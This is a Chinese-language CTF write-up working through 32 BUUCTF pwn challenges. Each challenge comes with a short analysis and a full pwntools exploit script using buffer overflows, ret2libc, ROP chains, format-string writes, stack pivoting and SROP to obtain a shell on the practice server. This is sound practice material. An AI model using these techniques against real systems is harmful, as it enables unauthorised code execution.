






第一页
- 第一页结束，题目比较基础，一晚上基本上就可以刷完，希望能快点刷到堆
题目1_test_your_nc
- 考点：
nc远程连接，连接命令：nc ip port，而不是nc ip:port
题目2_rip
- 考点：
ret2text - 下载附件后直接逆向这个程序，发现有一个
gets()函数，存在栈溢出
- 同时我们发现了存在危险函数，并且没有开
pie
- 所以就直接
ret2text，本题exp如下：
from pwn import *
#p = process('./pwn1')
p = remote('node5.buuoj.cn',25590)
payload = b'a'*(0xf+0x8)
payload += p64(0x40118A)
p.sendline(payload)
p.interactive()

题目3_warmup_csaw_2016
- 考点：
ret2text - 查看保护，发现保护全没开
- 下载附件后直接在使用
IDA查看反编译的代码，存在gets函数，可以栈溢出
- 发现
sprintf会输出sub_40060D这个函数的地址，我们来查看一下这个函数，发现是一个类似于后门函数，我们可以得到flag。
- 直接栈溢出
ret2text，exp如下：
from pwn import *
#p = process('./pwn1')
p = remote('node5.buuoj.cn',29233)
payload = b'a'*(0x40+0x8)
payload += p64(0x40060D)
p.sendline(payload)
p.interactive()

题目4_ciscn_2019_n_1
- 考点：
栈溢出 - 查看一下保护机制
- 然后直接
IDA pro反编译一下这个程序查看代码。发现main函数就这样输入输出初始化一下，然后调用func()函数

- 查看
func函数，发现存在gets()，还有v2与11.28125比较就能得到flag
- 直接查看数据段，发现
11.28125的浮点数十六进制表示如下：
- 所以直接溢出修改变量即可
from pwn import *
#p = process('./ciscn_2019_n_1')
p = remote('node5.buuoj.cn',25249)
payload = b'a'*(0x30-0x4)
payload += p64(0x41348000)
p.sendline(payload)
p.interactive()
题目5_pwn1_sctf_2016
-
考点：
ret2text -
查看一下保护机制，发现如下保护机制，并且是一个
32位程序
- 直接使用
IDA pro反编译这个程序。发现是一个C++语言的程序，并且main函数如下：
- 查看一下
vuln()函数
- 这个程序我们正常输入是没办法溢出的，但是这边如果输入
I的话会替换成三个字符you。此时我们就可以执行栈溢出操作。
- 接下来就是计算偏移了
- 计算得到偏移
b'I'*(21)+b'a'
- 所以exp如下：
from pwn import *
#p = process('./pwn1_sctf_2016')
p = remote('node5.buuoj.cn',27730)
payload = b'I'*(21)+b'a'
payload += p32(0x8048F0D)
p.sendline(payload)
p.interactive()
题目6_jarvisoj_level0
- 考点：
ret2text、栈对齐 - 先查看一下保护机制，保护机制如下

- 然后就逆向这个程序，查看这个程序的运行逻辑。先看
main函数
- 查看
return的这个函数，发现是一个栈溢出漏洞
- 同时这里还存在
shell
- 直接
ret2text，注意在溢出返回到shell的时候需要注意栈需要与0x10对齐，否则程序无法正常执行system("/bin/sh")exp如下：
from pwn import *
p = process('./level0')
#p = remote('node5.buuoj.cn',27730)
payload = b'a'*0x80 + b'a'*0x8 + p64(0x4005A5)+p64(0x400596)
p.sendline(payload)
p.interactive()
题目7_[第五空间2019 决赛]PWN5
- 考点：
随机数、格式化字符串漏洞 - 先查看一下保护机制

- 现在逆向一下这个程序，发现是直接获取程序随机数，然后将随机数写入到
bss段中。 - 之后让用户输入两次，第一次输入的时候会有一次格式化字符串漏洞
- 第二次输入就是输入一个数，将该数与随机数进行判断，相等就可以得到
shell
- 直接先写入
bss段存储随机数的地址，这样我们就能使用%s进行泄露，现在计算偏移，确定偏移为10
- 直接使用
%10$s写入随机数，这时我们接收随机数输入到那边即可得到shell，注意我们发送的时候要字符串ascii码形式，因为后面有atoi()这个函数。 - exp如下：
from pwn import *
#p = process('./pwn')
p = remote('node5.buuoj.cn',26635)
payload = p32(0x804C044) + b'%10$s'
#gdb.attach(p)
#pause()
p.sendline(payload)
p.recvuntil(b'Hello,')
leak = p.recvline()[4:-1]
print('leak--->',leak)
leak = int.from_bytes(leak,'little')
p.send(str(leak).encode('utf-8'))
p.interactive()
题目8_jarvisoj_level2
-
考点：
ret2text、32位rop链 -
先检查一下保护机制
- 开始逆向程序，先查看
main函数，发现有system函数，并且有一个vulnerable_function()函数
- 查看
vulnerable_function()函数，发现存在栈溢出
- 这时翻找字符串，发现还存在
/bin/sh字符串，这样我们通过栈溢出就可以执行system("/bin/sh")
- 这时直接构造
32位rop链，注意返回到call System和返回到system的plt表布置栈还稍微有点区别，主要就是返回到system的plt还要填充一个p32(0xdeadbeff)作为返回地址，然后再写入sh_addr - exp如下：
from pwn import *
#p = process('./level2')
p = remote('node5.buuoj.cn',29574)
sh_addr = 0x804A024
sys_addr = 0x804845C
payload = b'a'*(0x88+0x4) + p32(sys_addr)+ p32(sh_addr)
p.sendline(payload)
p.interactive()
题目9_ciscn_2019_n_8
- 考点：
溢出漏洞 - 先查看一下保护机制
- 逆向分析程序，发现简单的栈溢出操作。
- 确认偏移即可，再输入
17即可getshell
from pwn import *
p = process('./ciscn_2019_n_8')
#p = remote('node5.buuoj.cn',29574)
payload = p32(0x0)*13 + p64(17)
gdb.attach(p)
pause()
p.sendline(payload)
p.interactive()
题目10_bjdctf_2020_babystack
- 考点：
ret2text - 先查看一下保护机制
- 逆向这个程序，发现我们可以指定输入的字节数，这时我们就可以进行溢出
- 现在查看栈上布局，发现我们在溢出的时候会修改我们输入的字节数
- 这个时候我们就要注意溢出的内容，否则可能会出现溢出完
nbytes就不能再溢出的问题。 -
还需要注意栈对齐的问题
-
exp如下：
from pwn import *
#p = process('./bjdctf_2020_babystack')
p = remote('node5.buuoj.cn',26437)
p.sendline(b'50')
payload = b'a'*0x10 + b'a'*0x8 + p64(0x4006FA) + p64(0x4006E6)
#gdb.attach(p)
#pause()
p.sendline(payload)
p.interactive()
题目11_ciscn_2019_c_1
- 考点：
栈溢出、ret2libc - 先来查看一下保护机制
- 然后直接开始逆向这个程序，查看
main函数。发现主要就是一个加密的选项
- 查看
begin()函数程序中只实现了，选项1，并且解密选项没有实现。

- 接下来我们就查看这个
Encrypt()函数，发现这个函数会有一个gets()函数，存在栈溢出。 - 并且再输入完程序内容时，会对输入的内容进行异或加密

- 这时我们构造
rop链的时候就需要输入异或之后的内容。然后发现这个程序并没有现成的shell函数。 - 或者还有一种办法就是使用
\x00进行截断，这样rop链就不会被加密。本题使用这种打法。 - 此时我们就需要打
ret2libc - exp如下：
from pwn import *
#p = process('./ciscn_2019_c_1')
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',25616)
pop_rdi = 0x400c83
ret = 0x4006b9
puts_plt = 0x4006E0
puts_got = 0x602020
encrypt = 0x4009A0
payload = b'a'*0x1 + b'\x00' + b'a'*(0x50-2)+ b'a'*0x8
payload+= p64(ret) + p64(pop_rdi) + p64(puts_got)
payload+= p64(puts_plt) + p64(encrypt)
p.sendline(b'1')
#gdb.attach(p)
#pause()
p.sendline(payload)
p.recvuntil(b'l\n')
leak = p.recvline()[:-1]
print('leak--->',leak)
puts_addr = int.from_bytes(leak,'little')
libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'a'*0x1 + b'\x00' + b'a'*(0x50-2)+ b'a'*0x8
payload+= p64(pop_rdi) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload)
#p.sendline(payload)
p.interactive()
题目12_jarvisoj_level2_x64
- 考点：
ret2text、简单64位rop链 - 先查看一下检查机制
- 直接逆向程序，查看
main函数，只调用了这个函数，发现有system()
- 查看
vulnerable_function()函数，发现存在栈溢出
- 并且发现有
/bin/sh

- 简单
rop链构造即可，exp如下：
from pwn import *
p = process('./level2_x64')
p = remote('node5.buuoj.cn',25772)
pop_rdi = 0x4006b3
sh_addr = 0x600A90
sys_addr = 0x40063E
payload = b'a'*0x88 + p64(pop_rdi)
payload+= p64(sh_addr) + p64(sys_addr)
p.sendline(payload)
p.interactive()
题目13_get_started_3dsctf_2016
- 考点：
栈溢出、32位参数调用、全缓冲输出、静态编译 - 先查看保护机制，发现是一个
32位程序
- 逆向程序，查看
main函数，发现main函数存在栈溢出

- 并且我们查看函数会发现，有一个
get_flag的函数，当函数满足条件的时候就会get flag
- 思路就是直接栈溢出修改参数，然后返回到
get flag这个函数中 - 在打的过程中需要注意，
32位参数传递是从右向左依次传入栈中，所以第一个参数在最低栈地址中。 - 还要注意一点就是，这题并没有开启
无缓冲输出，所以在调用完get flag函数时，我们需要返回到main函数，再进行栈溢出，调用fflush(0)，刷新缓冲区。 - exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./get_started_3dsctf_2016')
p = remote('node5.buuoj.cn',28601)
payload = b'a'*0x38 +p32(0x080489A0)
payload+= p32(0x8048A20) + p32(0x308CD64F)+p32(0x195719D1)
#gdb.attach(p)
#pause()
p.sendline(payload)
payload = b'a'*0x38 +p32(0x804F3E0)
payload+= p32(0)+p32(0)
p.sendline(payload)
p.interactive()
题目14_[HarekazeCTF2019]baby_rop
- 考点：
栈溢出、64位简单rop链 - 检查一下保护机制
- 直接逆向程序，查看
main函数，发现有system()函数和一个栈溢出操作
- 然后还发现了
/bin/sh\x00这个字符串
- 直接栈溢出构造
rop链 - exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./babyrop')
pop_rdi = 0x400683
p = remote('node5.buuoj.cn',27158)
payload = b'a'*(0x10+0x8)
payload+= p64(pop_rdi)
payload+= p64(0x601048)
payload+= p64(0x4005E3)
p.sendline(payload)
p.interactive()
题目15_others_shellcode
- 考点：初步了解
32位程序的系统调用 - 先查看一下保护机制
- 先逆向程序，查看一下
main函数
- 再查看一下
getShell()，发现eax = 11、v1="/bin/sh\x00"，然后进行int 0x80进行系统调用
- 本题就是了解一下系统调用，nc即可
getshell,故本题无exp
题目16_[OGeek2019]babyrop
- 考点：
伪随机数、栈溢出、32位rop链、ret2libc、\x00截断 - 检查一下程序的保护机制
- 逆向程序，先查看一下
main函数，发现有一个随机数
- 再查看一下
sub_804871F()这个函数，发现程序会将用户输入的内容与随机数进行比较，比较长度为用户输入的内容的长度
- 如果比较成功就会返回
buf[7]，并且buf[7]可以控制sub_80487D0这个函数，这样就会导致栈溢出。
- 所以我们先使用
\x00对程序进行截断操作，然后再向but[7]输入一个数，能造成溢出。（这样stcncmp就不会进行判断，直接返回0）就可以直接进入下一个栈溢出函数 - 最后就直接栈溢出，exp如下：
from pwn import *
context.log_level = 'debug'
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',25643)
#p = process('./pwn')
payload = b'\x00'+b'\xff'*0x1E
#gdb.attach(p)
#pause()
p.sendline(payload)
payload = b'a'*0xE7 +b'a'*0x4 + p32(0x8048548)+p32(0x8048825)
payload += p32(0x8049FD4)
p.sendline(payload)
p.recvuntil(b'Correct\n')
puts_addr = p.recvline()[:-1]
print('leak--->',puts_addr)
puts_addr = int.from_bytes(puts_addr,'little')
libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'\x00'+b'\xff'*0x1E
#gdb.attach(p)
#pause()
p.sendline(payload)
payload = b'a'*0xE7 +b'a'*0x4 + p32(sys_addr)+p32(sh_addr)
payload += p32(sh_addr)
p.sendline(payload)
p.interactive()

题目17_ciscn_2019_n_5
- 考点：
栈溢出、ret2libc、向bss段写入/bin/sh - 保护机制
- 逆向程序
main函数，发现程序先会让用户输入向name输入64字节，而name是在bss段中的一个全局变量 - 还发现了
gets()这个函数，但是没有发现system()函数
- 这时我们就可以得到思路，我们将
/bin/sh写入到name中，然后正常打ret2libc，注意栈对齐 - exp如下：
from pwn import *
context.log_level = 'debug'
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',28795)
#p = process('./ciscn_2019_n_5')
pop_rdi = 0x400713
puts_got = 0x601018
puts_plt = 0x4004E0
payload = b'a'*0x64
p.send(payload)
payload = b'a'*0x28 + p64(pop_rdi) + p64(puts_got)
payload+= p64(puts_plt) + p64(0x400636)
p.sendline(payload)
p.recvuntil(b'What do you want to say to me?\n')
puts_addr = p.recvline()[:-1]
print('leak-->',puts_addr)
puts_addr = int.from_bytes(puts_addr,'little')
libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
payload = b'/bin/sh\x00' + b'a'*(0x64-0x8)
p.send(payload)
payload = payload = b'a'*0x28 +p64(0x4006AA)+ p64(pop_rdi) + p64(0x601080)
payload+= p64(sys_addr)# + p64(0x400636)
p.sendline(payload)
p.interactive()
题目18_not_the_same_3dsctf_2016
- 考点：
栈溢出、32位程序、静态编译、ret2text - 查看保护机制
- 逆向程序，先查看
main函数。发现程序就一个gets()
- 还发现了这个函数
- 思路就是栈溢出返回到
get_secret()这个函数中，然后再调用write函数（也可以调用printf函数更方便，这里也选择write函数）将flag打印出来。 - 但是经过尝试好像使用
printf函数会报错，具体原因没去查看 - exp如下：
from pwn import *
context.log_level = 'debug'
p = remote('node5.buuoj.cn',27286)
#p = process('./not_the_same_3dsctf_2016')
payload = b'a'*0x2d + p32(0x80489A0)
payload+= p32(0x80489E0)
printf_addr = 0x804F0A0
write_addr = 0x806E270
p.sendline(payload)
payload = b'a'*0x2d +p32(write_addr)+p32(0)
payload += p32(0x1)+p32(0x80ECA2D) +p32(0x40)
p.sendline(payload)
p.interactive()
题目19_ciscn_2019_en_2
- 这题与
题目11_ciscn_2019_c_1一模一样，只是异或的数据不同，直接照抄该题的exp，将接收到的l修改为o即可。 - exp如下：
from pwn import *
#p = process('./ciscn_2019_c_1')
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',25580)
pop_rdi = 0x400c83
ret = 0x4006b9
puts_plt = 0x4006E0
puts_got = 0x602020
encrypt = 0x4009A0
payload = b'a'*0x1 + b'\x00' + b'a'*(0x50-2)+ b'a'*0x8
payload+= p64(ret) + p64(pop_rdi) + p64(puts_got)
payload+= p64(puts_plt) + p64(encrypt)
p.sendline(b'1')
#gdb.attach(p)
#pause()
p.sendline(payload)
p.recvuntil(b'o\n')
leak = p.recvline()[:-1]
print('leak--->',leak)
puts_addr = int.from_bytes(leak,'little')
libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'a'*0x1 + b'\x00' + b'a'*(0x50-2)+ b'a'*0x8
payload+= p64(pop_rdi) + p64(sh_addr) + p64(sys_addr)
p.sendline(payload)
p.sendline(payload)
p.interactive()
题目20_ciscn_2019_ne_5
- 考点：
- 查看保护机制
- 对程序进行逆向，先查看
main函数，main函数的主要逻辑就是一个菜单。 - 这个菜单前面主要就是实现一个登录，并且貌似没有栈溢出。
- 查看完各个函数之后发现漏洞点在这个位置，这个位置会导致栈溢出
- 但是要注意
strcpy遇到\x00这个字符串后会被截断。
- 而我们的
src是通过这个地方来写入的
- 还发现这边有个
system()函数
- 此时我们就可以通过溢出构造rop链，同时写入
/bin/sh到程序的bss段中即可，但是这里没有read函数，不好写/bin/sh到bss段 - 这边就直接采取泄露的思路，注意
scanf()这个函数有以下坑点
- 并且不知道怎么回事程序不行
getshell，最终发现好像是libc错了
- exp如下：
from numpy import put
from pwn import *
#p = process('./ciscn_2019_ne_5')
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',25991)
p.sendline(b'administrator')
p.sendline(b'1')
puts_got = 0x804A020
puts_plt = 0x80484C0
main_addr = 0x8048722
printf_got = 0x804A014
payload = b'a'*(0x48+0x4)
payload += p32(puts_plt)+ p32(main_addr) + p32(printf_got)
p.sendline(payload)
p.sendline(b'4')
p.recvuntil(b'aaaaaa')
p.recvline()
printf_addr = p.recvline()[:4]
print('leak--->',printf_addr)
printf_addr = int.from_bytes(printf_addr,'little')
libc_addr = printf_addr - libc.symbols['printf']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
p.sendline(b'administrator')
p.sendline(b'1')
payload = b'a'*(0x48+0x4)
payload += p32(0x80486B9) + p32(sh_addr)
p.sendline(payload)
p.sendline(b'4')
p.interactive()
题目21_铁人三项(第五赛区)__2018_rop
- 考点：
栈溢出、ret2libc - 查看保护机制
- 逆向程序，先查看
main函数，发现main函数就调用了这俩个函数
- 再来查看
be_nice_to_people()，发现没啥漏洞
- 接下去继续看
vulnerable_function()，发现存在栈溢出 - 继续查找好没有看到
system和/bin/sh这个字符串，所以打ret2libc
- exp如下：
from os import system
from numpy import put
from pwn import *
#p = process('./2018_rop')
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',29708)
write_got = 0x804A010
write_plt = 0x80483A0
payload = b'a'*0x88 + b'a'*0x4
payload += p32(write_plt)+ p32(0x8048474) + p32(1) + p32(write_got)
payload += p32(0x0)
p.sendline(payload)
payload = b'a'*0x88 + b'a'*0x4
payload += p32(write_plt)+ p32(0x8048474) + p32(1) + p32(write_got)
payload += p32(0x8)
p.sendline(payload)
write_addr = p.recv()[:4]
write_addr = int.from_bytes(write_addr,'little')
libc_addr = write_addr - libc.symbols['write']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'a'*0x88 + b'a'*0x4
payload += p32(sys_addr)+ p32(0x8048474) + p32(sh_addr)
p.sendline(payload)
p.interactive()

题目22_bjdctf_2020_babystack2
- 考点：
整数溢出、栈溢出、ret2text - 检查一下保护机制
- 逆向程序，先查看
main函数，发现是一个整数溢出
-
直接输入
-1，绕过检查，绕过之后直接栈溢出 -
还发现了后门函数

- exp如下，打的时候注意栈对齐：
from pwn import *
#p = process('./bjdctf_2020_babystack2')
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',27593)
p.sendline(b'-1')
payload = b'a'*0x18 + p64(0x40072A)
p.sendline(payload)
p.interactive()
题目23_jarvisoj_fm
- 考点：
字符串格式化漏洞、简单%n的使用 - 检查保护机制
- 逆向程序，先查看一下
main函数，主要漏洞出现在这里，这里直接使用%n修改变量x x在bss段上，所以我们还需要先写入x的地址。然后确定偏移
- 接下来动调确定偏移
%11$p -
然后使用
%11$lln直接修改 -
接下来就直接写exp打
from pwn import *
#p = process('./fm')
libc = ELF('./libc-2.27.so')
p = remote('node5.buuoj.cn',28823)
payload = p32(0x804A02C) + b'%11$lln'
p.sendline(payload)
p.interactive()
题目24_bjdctf_2020_babyrop
- 考点：
64位ret2libc - 保护机制
- 逆向程序，先查看
main函数
- 再查看
vuln这个函数，就会发现这个函数存在栈溢出
- 直接
ret2libc，exp如下：
from pwn import *
#p = process('./bjdctf_2020_babyrop')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',26685)
pop_rdi = 0x400733
puts_got = 0x601018
puts_plt = 0x4004E0
payload = b'a'*0x20 + b'a'*0x8
payload += p64(pop_rdi)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(0x4006AD)
p.sendline(payload)
p.recvuntil(b'Pull up your sword and tell me u story!\n')
puts_addr = p.recvline()[:-1]
print('leak-->',puts_addr)
puts_addr = int.from_bytes(puts_addr,'little')
libc_addr = puts_addr - libc.symbols['puts']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'a'*0x20 + b'a'*0x8
payload += p64(0x4006CB)
payload += p64(pop_rdi)
payload += p64(sh_addr)
payload += p64(sys_addr)
payload += p64(0x4006AD)
p.sendline(payload)
p.interactive()

题目25_jarvisoj_tell_me_something
- 考点：
ret2text - 检查保护机制
- 逆向程序，先查看
main函数，这边存在一个栈溢出

- 发现这边会输出
flag
- 直接写
exp：
from pwn import *
#p = process('./guestbook')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',25255)
payload = b'a'*0x88
payload += p64(0x400620)
p.sendline(payload)
p.interactive()
题目26_ciscn_2019_es_2
- 考点：
栈溢出、栈迁移 - 先检查一下保护机制
- 逆向程序，先查看一下
main函数
- 直接查看
vuln函数，发现存在栈溢出，但是溢出太少字节了，所以需要栈迁移
- 并且有
system这个函数
- 但是没有
/bin/sh这个字符串，所以我们需要将这个字符串写入到bss段中 - exp如下：
from pwn import *
#p = process('./ciscn_2019_es_2')
#libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',29357)
bss_addr = 0x804A040+0x700
p.sendline(b'1')
payload = b'a'*0x28
payload += p32(bss_addr)
payload += p32(0x80485D8)
p.send(payload)
payload = b'/bin/sh\x00' + p32(0x8048559)
payload += p32(bss_addr-0x10)
payload += p32(0x8048559)+p32(bss_addr-0x28)+ b'/bin/sh\x00'*0x2
payload += p32(bss_addr-0x28+0x4)
payload += p32(0x80485FD)
p.send(payload)
p.interactive()
题目27_[HarekazeCTF2019]baby_rop2
- 考点：
简单ret2libc - 检查保护机制
- 逆向程序先从
main函数开始，发现存在栈溢出漏洞
- 直接打
ret2libc - exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./babyrop2')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',28306)
pop_rdi = 0x400733
printf_got = 0x601018
printf_plt = 0x4004F0
read_got = 0x601020
payload = b'z'*0x1c
payload += p32(0x1)
payload += p64(0x4006CB)
payload += p64(0x4006CB)
payload += p64(pop_rdi)
payload += p64(read_got)
payload += p64(printf_plt)
payload += p64(0x400636)
p.sendline(payload)
p.recvuntil(b'zzzzzzzzzzzzzzzzzzzzzzzzzzzzQ!\n')
printf_addr = p.recv()[:6]
print('leak--->',printf_addr)
printf_addr = int.from_bytes(printf_addr,'little')
libc_addr = printf_addr - libc.symbols['read']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'z'*0x1c
payload += p32(0x1)
payload += p64(0x4006CB)
payload += p64(pop_rdi)
payload += p64(sh_addr)
payload += p64(sys_addr)
payload += p64(0x400636)
p.sendline(payload)
p.interactive()
题目28_picoctf_2018_rop chain
- 考点：
32位参数调用 - 查看保护机制
- 逆向分析程序，先查看
main函数
- 直接查看
vuln这个函数，发现gets()函数，直接栈溢出
- 发现这边可以得到flag，但是要满足条件

- 发现还有俩个地方
- 直接就是一步一步构造
32位rop链 - exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./PicoCTF_2018_rop_chain')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',29128)
win1 = 0x80485CB
win2 = 0x80485D8
vuln = 0x8048714
payload = b'a'*0x1c
payload += p32(win1)+p32(vuln)
p.sendline(payload)
payload = b'a'*0x1c
payload += p32(win2)+p32(vuln)+p32(0xBAAAAAAD)
p.sendline(payload)
payload = b'a'*0x1c
payload += p32(0x804862B)+p32(vuln)+p32(0xDEADBAAD)
p.sendline(payload)
p.interactive()
题目29_pwn2_sctf_2016
- 考点：
整数溢出、ret2libc、ret2syscall - 查看保护机制
- 逆向分析这个程序，我们先来查看一下
main函数
- 直接查看
vuln这个函数，发现存在整数溢出，间接导致栈溢出
- 还发现有系统调用，这里就不打
int 0x80，直接打ret2libc

- exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./pwn2_sctf_2016')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',29664)
printf_got = 0x0804A00C
printf_plt = 0x08048370
vulin = 0x804852F
p.sendline(b'-1')
payload = b'a'*0x30
payload += p32(printf_plt)+p32(vulin)+p32(printf_got)
p.sendline(payload)
p.recvuntil(b'You said: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaap\x83\x04\x08/\x85\x04\x08\x0c\xa0\x04\x08\n')
#printf_addr = p.recvline()#[:4]
printf_addr = p.recv()[:4]
print('leak-->',printf_addr)
printf_addr = int.from_bytes(printf_addr,'little')
libc_addr = printf_addr - libc.symbols['printf']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
p.sendline(b'-1')
payload = b'a'*0x30
payload += p32(sys_addr)+p32(vulin)+p32(sh_addr)
p.sendline(payload)
p.interactive()
题目30_jarvisoj_level3
- 考点：
ret2libc - 查看保护机制
- 直接进行逆向，先查看
main函数
- 然后查看
vulnerable_function()函数，发现存在栈溢出，但是并没有system函数和/bin/sh字符串
- 直接打
ret2libc - exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./level3')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',25981)
write_got = 0x804A018
write_plt = 0x8048340
vuln = 0x804844B
payload = b'a'*0x8c
payload += p32(write_plt)+p32(vuln)+p32(1)
payload += p32(write_got)+p32(0x4)
p.sendline(payload)
p.recvline()
write_addr = p.recv()[:4]
write_addr = int.from_bytes(write_addr,'little')
print(write_addr)
libc_addr = write_addr - libc.symbols['write']
sys_addr = libc_addr + libc.symbols['system']
sh_addr = libc_addr + next(libc.search(b'/bin/sh\x00'))
payload = b'a'*0x8c
payload += p32(sys_addr)+p32(vuln)+p32(sh_addr)
payload += p32(write_got)+p32(0x4)
p.sendline(payload)
p.interactive()
题目31_wustctf2020_getshell
- 考点：
ret2text - 查看保护机制

- 直接逆向程序，这个函数存在栈溢出
- 并且还存在shell
- exp如下：
from pwn import *
context.log_level = 'debug'
#p = process('./wustctf2020_getshell')
libc = ELF('./libc-2.23.so')
p = remote('node5.buuoj.cn',27172)
payload = b'a'*0x1c+p32(0x804851B)
p.sendline(payload)
p.interactive()
题目32_ciscn_2019_s_3
- 考点：
ret2syscall、SROP、栈迁移 - 查看保护机制，虽然是
32位但是系统调用用的是64位的，并不是单纯的32位
- 直接逆向程序

- 还发现
gadget
- 这边直接调用俩次
SROP，在第一次调用SROP的时候顺便进行栈迁移，第二次getshell - exp如下：
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
#p = process('./ciscn_s_3')
libc = ELF('./libc-2.23.so')
#gdb.attach(p)
#pause()
p = remote('node5.buuoj.cn',26847)
payload = b'b'*0x10 + p64(0x4004DA)
payload+= p64(0x400517)
sign = SigreturnFrame()
sign.rax = 0
sign.rdi = 0
sign.rsi = 0x601030
sign.rdx = 0x300
sign.rip = 0x400517
sign.rsp = 0x601030+0x8
sign.rbp = 0x601030+0x100
payload+=bytes(sign)
p.sendline(payload)
payload = b'/bin/sh\x00'
payload += p64(0x4004DA)
payload += p64(0x400517)
sign2 = SigreturnFrame()
sign2.rax = 59
sign2.rdi = 0x601030
sign2.rsi = 0
sign2.rdx = 0
sign2.rip = 0x400517
payload+= bytes(sign2)
pause()
p.sendline(payload)
p.interactive()